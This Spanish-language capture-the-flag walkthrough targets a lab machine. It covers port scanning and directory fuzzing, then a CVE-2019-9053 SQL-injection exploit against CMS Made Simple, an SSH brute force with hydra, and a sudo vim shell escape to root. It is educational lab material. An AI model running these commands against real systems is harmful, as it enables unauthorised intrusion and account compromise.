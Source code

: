 ### Tags `/usr/bin/vim` 

# Escaneo (*21,80,2222*)

```css
  sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n - Pn 10.10.85.210 -oN escaneo
```
![image](https://github.com/user-attachments/assets/22b64866-0de5-43f7-8257-d12bb121a6a5)

# Fuzzing (gobuster)
Hacemos gobuster a la web y encontramos un directorio llamado ``simple``

```css
  gobuster dir -u http://10.10.85.210 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -b 403,404 -x php,html,txt
```
![image](https://github.com/user-attachments/assets/e3ed087a-7812-4851-9a4e-0651eb90f794)

Viendo la WEB, abajo del todo aparecía la **versión del CMS**

![image](https://github.com/user-attachments/assets/6c2508b3-d9a9-4189-8cf8-c3ae0a018e1b)

## Searchsploit (cms)

![image](https://github.com/user-attachments/assets/933388a9-acf1-4ac9-99ad-fcac7609ea53)

Pusimos este comando para que se nos descargue en nuestra máquina el *EXPLOIT*

 ```ruby
searchsploit -m php/webapps/46635.py
```

Hacemos un *CAT* al exploit y podemos ver el código y vemos el **CVE** --> que es fundamental para poder buscar en google un exploit sobre ese CVE

![image](https://github.com/user-attachments/assets/91f3d6ca-5c8f-43a5-a349-0b3f92dfedfd)

# Explotación
Pusimos en google *CVE-2019-9053* exploit github y nos fuimos a este [Enlace](https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit)

![image](https://github.com/user-attachments/assets/ecc7259c-0507-4420-af61-c18ffe330389)

Y una ves que lo tengamos para ejecutarlo hacemos el siguiente comando --->``python3 cve.py -u http://10.10.85.210/simple --crack -w /usr/share/wordlists/rockyuo.txt``
Nos da un usuario y una contraseña *Hasheada* que no vamos a utilizar ya que como tenemos un Nombre de usuario y tenemos el **puerto 2222 de SSH** hacemos *HYDRA*

![image](https://github.com/user-attachments/assets/03f5f506-fa5a-4919-8766-9ce7bd871899)

### Hydra
Usamos hydra con el puerto SSH y nos da la *contraseña*

![image](https://github.com/user-attachments/assets/027c6243-e541-429f-b584-ff16eda4b511)

```css
 ssh mitch@10.10.85.210 -p 2222
```

# Escalada ROOT
Poniendo **sudo -l** vemos esta *vim* entonces podes hacer lo siguiente:

![image](https://github.com/user-attachments/assets/4755b461-b6e1-4c1e-aa2b-ec37e3598a40)

Lo que hacemos es ubicarnos dentro de **/tmp** ya que en esa carpeta tenemos los **permisos de escritura** y poniendo **sudo vim pawned**  --> podemos hacer lo esto:
Se nos abre vim y poniendo esto  ---> ``:set shell=/bin/bash`` ---> le das a *ENTER*

![image](https://github.com/user-attachments/assets/4638d2d8-7873-4e95-bcbb-8f846706fb7c)

Una ves dado *ENTER* pones esto esto otro y LISTO --> ``:shell`` +ENTER

![image](https://github.com/user-attachments/assets/09c57117-d9ca-4f2e-b3a6-01cdf66bbdf9)
![image](https://github.com/user-attachments/assets/3a01e4db-f42a-45ce-802f-e195eb746ee9)

